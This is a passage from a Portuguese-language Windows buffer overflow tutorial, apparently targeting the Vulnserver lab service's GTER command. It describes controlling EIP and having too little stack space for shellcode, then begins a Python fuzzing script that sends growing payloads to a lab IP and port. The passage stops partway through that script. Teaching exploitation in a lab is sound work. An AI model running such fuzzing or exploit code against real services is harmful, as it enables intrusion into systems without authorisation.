 ![Enumaração do comando.](/std/winbof/winbof-24.png)

Novamente conseguimos sobrescrever o EIP com “41414141”, o que é ótimo, pois conseguimos controlar o endereço da próxima execução após o overflow.

Mas se seguirmos o dump do ESP, podemos ver que temos apenas 20 bytes para inserir nosso shellcode, o que é praticamente impossível uma vez que ele ocupa aproximadamente 350 bytes.

Teremos que usar uma técnica diferente para conseguirmos nossa shell.

Isso também mostra que talvez nem precisemos de todos os 5060 bytes que nosso fuzzing encontrou, vamos criar nosso próprio script para encontrar um fuzzing mais próximo.

fuzzing.py:

```python
#!/usr/bin/python3

import socket
from time import sleep
import sys

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * 100 # quantidade inicial de bytes 

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip,porta))
        s.send(payload + b"\r\n")
        s.recv(1024)
```